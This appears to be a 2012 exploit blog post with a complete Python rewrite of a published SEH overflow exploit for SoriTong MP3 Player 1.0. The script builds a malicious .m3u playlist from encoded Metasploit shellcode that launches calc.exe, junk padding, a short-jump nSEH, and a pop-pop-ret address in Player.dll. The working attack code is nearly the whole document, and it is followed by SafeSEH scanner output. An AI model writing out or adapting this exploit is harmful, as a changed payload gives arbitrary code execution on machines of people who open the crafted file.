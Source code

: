 SoriTong MP3 Player .m3u File Parsing SEH Overflow
==================================================
date: 02/Sep/2012
summary: SoriTong MP3 Player SEH overflow via a pop-pop-return overwrite.
tags: exploit, buffer overflow

SoriTong MP3 Player version 1.0 is prone to a SEH overflow
vulnerability. Processing specially-crafted `.m3u` file could trigger a
SEH overwrite that could be leveraged further to gain arbitrary code
execution. The exploit for this vulnerability has been documented at
[EDB: 8624](http://www.exploit-db.com/exploits/8624/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb8624.m3u"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

junk = "\xCC"*260
nseh = pack ('<I', 0x909032EB)         # short jump 50B
cseh = pack ('<I', 0x1001CFDA)         # p/p/r 1001CFDA Player.dll
nops = "\x90"*80

sploit = junk+nseh+cseh+nops+calc

try:
    handle = open (file, 'w')
    handle.write (sploit)
    handle.close ()
    print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
    print "[-] exception!"

'''
/SafeSEH Module Scanner, item 33
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10094000
 Module Name=Player.dll
'''
```
